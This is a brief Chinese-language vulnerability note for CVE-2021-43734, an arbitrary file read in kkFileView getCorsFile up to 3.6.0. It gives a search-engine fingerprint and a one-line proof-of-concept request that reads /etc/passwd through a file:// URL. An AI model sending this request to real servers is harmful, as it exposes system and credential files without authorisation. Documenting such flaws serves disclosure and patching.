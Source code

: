 # kkFileView getCorsFile 任意文件读取漏洞 CVE-2021-43734

# kkFileView getCorsFile 任意文件读取漏洞 CVE-2021-43734

## 漏洞描述

kkFileView getCorsFile 3.6.0 版本以下存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的任意文件，获取服务器敏感信息

## 漏洞影响

```
kkFileView getCorsFile <= 3.6.0
```

## 网络测绘

```
body="kkFileView"
```

## 漏洞复现

主页面

![image-20220524172325491](/images/202205241723549.png)

验证POC

```
/getCorsFile?urlPath=file:///etc/passwd 
```

![image-20220524172414993](/images/202205241724070.png)

